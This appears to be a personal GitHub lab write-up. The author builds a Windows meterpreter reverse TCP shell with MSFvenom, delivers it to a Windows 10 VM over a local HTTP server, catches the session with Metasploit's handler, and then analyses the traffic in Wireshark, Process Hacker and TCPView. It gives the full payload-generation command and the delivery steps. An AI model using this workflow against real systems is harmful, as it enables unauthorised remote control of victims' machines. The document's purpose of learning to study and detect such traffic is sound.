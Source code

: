 # MSFvenom

![Pasted image 20240502094200](https://github.com/lm3nitro/Projects/assets/55665256/92706414-50e2-4614-85b6-e2b7560e74d7)

MSFvenom is a versatile tool in the Metasploit Framework used for generated various types of payloads and shellcode. It allows penetration tested and security researchers to create custom payloads for exploitation, bypassing defenses, and gaining remote access to target systems. 

Key Features:
+ Payload Generation
+ Payload Format
+ Customization

### Scope:
I will install and configure MSFvenom to create a customer reverse TCP shell payload on the attacking host (Linux OS) that will then be downloaded and executed by the victim host (Windows 10 OS). I will then analyze the traffic using various tools to see how the connection looks like and the payload execution at the packet level. 

### Tools and Technology:
Linux OS, Win 10 OS, Wireshark, Process Hacker, TCPview and MSFvenom

## Getting started with MSFvenon

Once MSFvenon is installed and running, using the -h lists the available options

```
msfvenom -h
```

![Pasted image 20240501131915](https://github.com/lm3nitro/Projects/assets/55665256/ac798fe5-2b2b-445f-903c-54aeec52edc1)

Listing the -l will show available payloads:

```
msfvenom -l payloads
```

![Pasted image 20240501132226](https://github.com/lm3nitro/Projects/assets/55665256/15af3e0c-0708-439c-ac06-af170979d19c)

Here I can see the total amount of payloads available at the time of this writing: 1475

```
msfvenom -l payloads | wc -l
```

![Pasted image 20240501132317](https://github.com/lm3nitro/Projects/assets/55665256/dab59089-4138-4765-9085-f053d88371e8)

## Custom payload for Windows:

I will be creating a custom payload for my Windows 10 host for testing and analysis. I be using the 'meterpreter_reverse_tcp'. This is a reverse tcp shell. A reverse tcp shell is used to establish a network connection from a compromised target back to the attacker's machine, which in turn facilitates remote control and command execution over the network. 

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.91.134 lport=4444 -4 exe -o lm3nitro_shell.exe
```

![Pasted image 20240501140620](https://github.com/lm3nitro/Projects/assets/55665256/061f31b8-12a7-4832-bfff-aaea596191b5)

Once that was complete, I also verified my file information:

```
file lm3nitro_shell.exe
```

![Pasted image 20240501133716](https://github.com/lm3nitro/Projects/assets/55665256/94f63484-e1c7-4360-88af-2d58b2495fac)

I then used the exploit/multi/handler which provides a listening service to interact with the payload

![Pasted image 20240501133901](https://github.com/lm3nitro/Projects/assets/55665256/a912bfbf-372b-40c0-8dff-119db6fc56d5)

I configured the exploit/multi/handler to use with the custom payload. 

![Pasted image 20240501134438](https://github.com/lm3nitro/Projects/assets/55665256/ca2462d0-a320-4df5-8de3-ea1b3791b3a2)

I now needed a web server to serve the payload. As seen below, I chose it to be locally (192.168.91.134) on port 8000:

![Pasted image 20240501135301](https://github.com/lm3nitro/Projects/assets/55665256/171f630b-c618-447b-9d94-2096cee9be09)

## Downloading the payload:

Once everything was in place, I went to the Windows host, navigated to 192.168.91.134:8000 as specified above and downloaded lm3nitro_shell.exe I had previosuly created. 

![Pasted image 20240501135710](https://github.com/lm3nitro/Projects/assets/55665256/303251b2-3d73-4aff-823a-84f7bda6f9b9)

Using the following command on the attacking host I was able to see that the Windos host had indeed connected in real time:

```
python3 -m http.server
```

![Pasted image 20240501140151](https://github.com/lm3nitro/Projects/assets/55665256/60325139-29da-4ecd-935f-1b620351cd19)

I also ensured that I had Wireshark running and capturing the traffic on the network. Here I can see the traffic from the download:

![Pasted image 20240501135931](https://github.com/lm3nitro/Projects/assets/55665256/c444cd3f-6354-4126-9a99-857617248a4c)

After having downlaoded the executable, I then executed it:

![Pasted image 20240501140042](https://github.com/lm3nitro/Projects/assets/55665256/a6a5713d-2966-45d3-a7d6-d5a0bfdc43bb)

On the attacking host ( MSFvenom) I could see that it had been executed and details on the host regarding the user, OS version/build, etc. Also, using the shell command allowed me to successfully remotely connect to the target host over the network:

![Pasted image 20240501144904](https://github.com/lm3nitro/Projects/assets/55665256/afbfd0d0-7bef-4d2a-a5ce-62afd0217761)

## Traffic analysis of the payload:

Going back to Wireshark, I can see when the payload was executed. I was able to see the 200 ok when the target host navigated to the IP and port:

![Pasted image 20240501141911](https://github.com/lm3nitro/Projects/assets/55665256/810d5f2f-9b7f-4116-8d73-a41915740313)

I also used Process Hacker. Process Hacker is a free tool for Windows that helps manage and monitor what is happening. Windows by default comes with Task Manager, however, this is a more enhanced version of that. It provides more detailed information about running programs, CPU and memory. 

Taking a look at the lm3nitro_shell.exe that is running, I was also able to see the location, command line, time that it has running, and the Parent:

![Pasted image 20240501143036](https://github.com/lm3nitro/Projects/assets/55665256/c3d3bf25-9cf7-448d-8635-a7812a97ba06)

I also used TCPView (utility within Sysinternals) which lists all active network connections, showing the local and remote addresses, ports, protocols, and status. Here I could see that the connection was establish to the attacker IP on port 4444:

![Pasted image 20240501143308](https://github.com/lm3nitro/Projects/assets/55665256/af6dba33-5efe-45a4-9c29-af57d07e5f32)


### Summary:

I was able to install and configure MSFvenom and use it to create a reverse tcp shell payload which was then downloaded by the victim (Windows 10 PC) to create a remote connection to it. While this was being downloaded and executed by the victim I had Wireshark running in the background to capture the traffic and have a look at how this malicious traffic looks at the packet level.  

Having done this allowed me to get a better understanding on attackers and a view into the malicious payloads that are readily available on tools such as MSFvenom. I was able to see how these payloads can be used to exploit vulnerable targets. I was able to further explore attack vectors and defense evasion techniques all in a safe and controlled environment. 

Overall, MSFvenom is a great tool because it really simplifies the creation of custom payloads for penetration testing and security assessments. I was able to generate malicious code tailored to my specific target. MSFvenom allows security professionals and ethical hackers to simulate real-world attacks and scenarios. One thing that I like is that it can be integrated with tools sucks as Metasploit to make it even more powerful. 


